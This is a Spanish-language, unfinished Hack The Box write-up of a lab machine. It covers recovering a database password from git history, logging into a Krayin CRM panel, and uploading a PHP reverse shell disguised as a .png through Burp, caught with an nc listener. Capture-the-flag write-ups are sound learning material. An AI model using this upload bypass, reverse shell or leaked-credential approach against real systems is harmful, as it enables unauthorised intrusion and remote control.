### Hack The Box | Touch.

Se realiza primer scaneo con nmap:

- nmap -sC -sV ip

```diff
└─$ nmap -sC -sV 10.129.143.219     
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-01 18:20 -0500
Nmap scan report for nexus.htb (10.129.143.219)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Nexus Energy Authority \xE2\x80\x94 Powering the Nation's Future
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.10 seconds
```

Donde se comprende que:

| Puerto | Servicio | Lectura |

| 22/tcp | ssh | Ubuntu y acceso remoto confirmado. |

| 80/tcp | http | Servicio web HTTP. |

### Entonces:

Se busca en la web y nos da un dominio http://nexus.htb/, tratando de recuperar información importante encontramos que el correo de un personal es: j.matthew@nexus.htb

Ahora se utilizan sistemas de escaneo para ver subdominios, rutas conocidas, y ver que tipo de información podemos extraer.

Feroxbuster y Gobuster no arrojan ningun resultado util o usable.



Con FFUF si rastreamos subdominios, los cuales son git y billing.



Ingresamos a ambos.
En el billing hay un panel web con inicio de sesión.

Pero lo interesante viene realmente cuando abro el git.nexus.htb, que me aparece un git con exposicion de datos, pero aun sin credenciales.



Si descargamos ese git, y empezamos a analizarlo, damos con el resultado de un commit realizado, con el cual intentan borrar credenciales expuestas, sin embargo, ya se encontraba en un commit anterior que logramos recuperar.



```diff
┌──(kali㉿kali)-[~/pentest/machines/krayin-docker-setup]
└─$ sudo git diff 9b817fa 1615c46
diff --git a/.env b/.env
index 5ae1bb2..cb7ccc3 100644
--- a/.env
+++ b/.env
@@ -2,7 +2,7 @@ APP_NAME='Krayin CRM'
 APP_ENV=local
 APP_KEY=
 APP_DEBUG=true
-APP_URL=http://billing.nexus.htb
+APP_URL=http://nexus.htb
 APP_TIMEZONE=Asia/Kolkata
 APP_LOCALE=en
 APP_CURRENCY=USD
@@ -15,7 +15,7 @@ DB_HOST=krayin-mysql
 DB_PORT=3306
 DB_DATABASE=krayin
 DB_USERNAME=krayin
-DB_PASSWORD=
+DB_PASSWORD=N27xh!!2ucY04
 DB_PREFIX=
 BROADCAST_DRIVER=log
 CACHE_DRIVER=file
```

Probando estas credencianles en billing, logramos ingresar al panel.



Con estos datos nos damos cuenta que el servicio http, podria aceptar quizas extensiones php, intentaremos ver si en My Account, permite subir un archivo que no sea imagen.

- https://github.com/duohnson/php-reverse-shell


```diff
Authenticated Remote Code Execution (RCE) [CVE-2026-38526]: A critical flaw (CVSS 9.9) in the TinyMCE media upload endpoint allows any authenticated user to upload and execute arbitrary PHP files. 
Pre-Authentication Admin Account Takeover [CVE-2026-41452]: A critical missing-authentication vulnerability (CVSS 9.8) allows unauthenticated attackers to overwrite the primary administrator account credentials. 
SQL Injection [CVE-2026-38528]: A SQL injection vulnerability exists via the rotten_lead parameter in the Lead Data Grid. 
Broken Object-Level Authorization [CVE-2026-38529]: A high-severity flaw allows authenticated attackers to reset other users' passwords and perform account takeovers. 
Cross-Site Scripting (XSS) [CVE-2026-5370]: A low-severity XSS vulnerability affects the Activities and Notes modules.
```


GUARDAR COMO .PNG O .JPG

- nc -lvnp 1234

- Abrir Burp Suite CE.

- Capturar la salida del .php.png





En resumen, se modifica un .php con reverse shell el cual descargo, luego se modifica y se coloca la ip y el puerto que usare, luego le coloco .png al final, y lo cargo con el burp suite activo, hay que cambiar la extension en el burp suite por .php, y luego forward.

De esa forma el listen que iniciamos con el nc -lvnp 1234 nos da acceso y con bash -i, tenemos la shell.

- script /dev/null -c /bin/bash

Para intentar tener obtener shell interactiva, donde script inicia sesion luego con dev null le dice que envie salidas descartadas, y -c bin bash ejecuta el bash dentro de esa sesion.
Y puede convertir una shell no interactiva/limitada en una shell con características de terminal más normales.



Pendiente de terminar.

Me pusieron la maquina en VIP, y no pude continuarla.... luego la terminaré...
Considero esto muy injusto, hay una decena de maquinas VIP, y justo la que yo estaba haciendo, me la cambiaron, es complicado..
